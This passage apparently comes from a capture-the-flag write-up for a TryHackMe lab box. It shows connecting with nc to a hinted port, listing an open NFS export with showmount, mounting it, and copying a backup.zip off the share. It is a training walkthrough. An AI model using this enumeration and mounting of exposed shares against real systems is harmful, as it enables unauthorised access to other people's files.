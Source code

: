 ```
550 12345 0ffffffffffffffffffffffffffffffc880000000000008ffffff00
550 12345 0ffffffffffffffffffffffffffffffffff7788888887ffffffff00
550 12345 0ffffffffffffffffffffffffffffffffffffffffffffffffffff00
550 12345 0000000000000000000000000000000000000000000000000000000
550 12345 0000000000000000000000000000000000000000000000000000000
550 12345 0000000000000000000000000000000000000000000000000000000
```

**If you look closer, it has a hint:**
```
550 12345 0f7000f800770008777 go to port 12345 80008f7f700880cf00
```

**Let's use `nc` to connect to port 12345!** 
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# nc -nv $RHOSTS 12345 
(UNKNOWN) [10.10.184.23] 12345 (?) open
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

> Note: NFS standard port is on 2049.

## NFS on Port 2049

**Show mounted share via `showmount`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# showmount -e $RHOSTS      
Export list for 10.10.184.23:
/home/nfs *
```

**Found `/home/nfs` mount!**

**Mounting share via `mount`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# mkdir nfs-share
                                                                                               
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# mount -t nfs $RHOSTS:/home/nfs ./nfs-share
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# ls -lah nfs-share 
[...]
-rw-r--r-- 1 root   root    4.5K Sep 15  2020 backup.zip
```

**Let's `cp` that `backup.zip`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# cp nfs-share/backup.zip .     
                                                                                               
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# file backup.zip 
backup.zip: Zip archive data, at least v1.0 to extract, compression method=store
```
